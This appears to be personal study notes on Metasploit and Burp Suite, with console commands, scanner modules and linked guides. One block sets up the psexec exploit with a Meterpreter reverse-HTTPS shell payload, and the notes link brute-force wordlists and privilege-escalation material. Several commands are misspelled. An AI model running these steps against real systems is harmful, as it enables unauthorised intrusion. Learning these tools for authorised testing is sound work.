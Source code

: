 ```yaml
---
title      : "Metasploit"
date       : 2019-09-25T12:04:25Z
publishdate: 2019-09-25T12:04:25Z
draft      : false
comments   : false
weight     : 5
revision   : 0
series:
- Security
categories:
- exploit
tags:
- metasploit
---
```


## Metasploit

* a tool for developing and executing exploit code against a remote target machine
* The Metasploit Project includes anti-forensic[^1] and evasion tools
* Source code[^3]
* https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

<!-- more -->

IDS - Intrusion Detection System
: Monitors a network or a stystem for vurnabilities or malicious activities
* `snort`, `suricata`

```
[ metasploit v5.0.46-dev                          ]
[ 1921 exploits - 1075 auxiliary - 330 post       ]
[ 556 payloads - 45 encoders - 10 nops            ]
[ 4 evasion                                       ]
```

```
info explot/windows/smb/psexec 
use explot/windows/smb/psexec
show options
set PAYLOAD windows/meterpreter/reverse_https
set LPORT 443
exploit -h
explott -j
run           # to run auxillary scans
sessions
session -i 1  # run any ruby code in context
load          # loads plugins from metasploit

# Searching exploits
search
use
options
set verbose true

```

use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/http/docker_version

use auxiliary/scanner/x11/open_x11
nmap -p 6000 --script=x11-access 192.168.121.220/24 

Find out SSH version you are runnugn

```
apt show ssh
ssh -v localhost
ssh -V
```

## Exploits and Scans

* Reverse Shells
  * https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
* [FTP Sniffing](https://www.offensive-security.com/metasploit-unleashed/password-sniffing/)
* Linux Provilage Escalation[^5]

## Burp Suite

* interception proxy tool
* website Scanning
* Documentation[^4]
* setup local `http://localhost:8888/dvwa/login.php`
* Setup the Porxy
* Intruders
  * Dictionary[^8] and brute force attacks[^7]
* Repeater
  * sending same request with multiple params
* Decoder - crypto
  * SHA, MD5, base64
  * Smart decode, to decode passwords

Intercepting requests on localhost

```
about:config 
Type the following into Firefox address bar 'about:config'
Type the following settings 'network.security.ports.banned.override'
Enter your port number '6666'

http://burp/
```

* https://support.portswigger.net/customer/portal/articles/2956765-installing-burp-s-ca-certificate-in-chrome-on-linux
* https://support.portswigger.net/customer/portal/articles/1783087-installing-burp-s-ca-certificate-in-firefox
* https://medium.com/cyberdefenders/burp-suite-webpage-enumeration-and-vulnerability-testing-cfd0b140570d
* https://support.portswigger.net/customer/portal/articles/2326039-the-burp-methodology-
* 



### Footnotes

[^1]: https://en.wikipedia.org/wiki/Computer_forensics
[^2]: https://en.wikipedia.org/wiki/Shellcode
[^3]: https://github.com/rapid7/metasploit-framework
[^4]: https://portswigger.net/burp/documentation/desktop/scanning
[^5]: http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
[^6]: https://github.com/jlevy/the-art-of-command-line
[^7]: https://github.com/danielmiessler/SecLists
[^8]: https://www.kaggle.com/wjburns/common-password-list-rockyoutxt